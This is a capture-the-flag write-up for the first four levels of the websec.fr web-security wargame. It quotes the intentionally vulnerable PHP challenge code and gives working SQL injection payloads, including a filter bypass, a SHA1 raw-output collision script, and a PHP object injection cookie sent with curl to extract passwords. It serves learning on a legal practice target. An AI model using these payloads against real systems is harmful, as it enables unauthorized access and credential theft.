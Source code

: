 ```yaml
---
layout: blog
title: "websec.ft wargames CTF Writeup"
date: 2020-05-27T18:23:59.297Z
tags:
  - ctf_writeup
---
```


CTF writeup of http://websec.fr/ war-games.

<!--more-->

# websec.fr writeups

## Level 01

```php
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

The level one is straightforward, the source code is given so we just have to use `union select`

```sql
SELECT id,username FROM users WHERE id=1 OR 1=2 union select username,password from users where id = 1 LIMIT 1
```

so the payload is: `1 AND 1=2 union select username,password from users where id = 1`

Explanation:

1. we have to bypass first select by making it false, using `AND {false_statement}` so `1=2` == `false`

2. after making the first term `false` we now can use union select with password as my guest column

## Level 02

```php
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

the query is just the same as the first level, but with limitation, the query is filtered using `preg_replace`

I’m using php interactive shell to try preg*match, it turns out it does not filter it \_recursively*

```shell
❯ ./psysh
Psy Shell v0.10.4 (PHP 7.3.11 — cli) by Justin Hileman
>>> $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
=> "union|order|select|from|group|by"
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "from");
=> ""
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "frfromom");
=> "from"
```

so we can bypass the query just by modifying forbidden word

final query: `1 and 1=2 UNunionION SELselectECT username,password FRfromOM users where id =1 --`

## Level 03

When doing this challenge, I notice after copying the source code to my text editor, is the `sha1` function is written with argument `fa1se` not `false`. It makes the `sha1`'s parameter raw_output equals to `true`, so the output is raw binary.

So what? we notic that we can truncate the byte with null terminator `\0`. Fortunately, the hash of the password in the challenge contains null byte too:(`7c00249d409a91ab84e3f421c193520d9fb3674b`)

So we can make a hash collision by finding a hash that starts with: `0x7c 0x00`

I wrote a script,

```python
import hashlib
import base64
import codecs
import requests
import re

the_answer = ""

i = 0
while True:
    v = "%x" % i
    v = "0" + v if len(v) % 2 == 1 else v
    v = base64.b64encode(codecs.decode(v, "hex"))
    h = hashlib.sha1(v).digest()[:2]
    if h == b"\x7c\x00":
        the_answer = str(v).replace("b", "").replace("\'", "")
        break
    i += 1


r = requests.post('http://websec.fr/level03/index.php', data={'c': the_answer })
flag = re.search(r'(.*?WEBSEC.*?)\n', r.text)
print(flag.group(0))
```

## Level 04

given this source code, lets analyze the codes:

```php
// source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```

1. There is unserialize method without input validation, we can assume we can use PHP object injection attack
2. We can abuse the unserialize method by crafting our payload on cookies

```php
//source2.php

<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }

    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

1. We can see from the source2, the codes implemented magic function `__descruct()`, this magic function will be called automatically without invocation.
2. furthermore, from `__destruct()` method, it will query to database and show `$row[username]` field, so actually we have to craft `UNION` query but it's easier to use `AS` keyword to change from username field to password field

We can craft the payload using this php script:

```php
// payload.php

<?php

class SQL
{
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

$serialized = serialize(new SQL());
echo base64_encode($serialized);
```

output generated: `TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9`

try this using curl, or using browser and set your cookie

```shell
❯ curl -b 'leet_hax0r=TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9' http://websec.fr/level04/index.php
```

further reads:

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
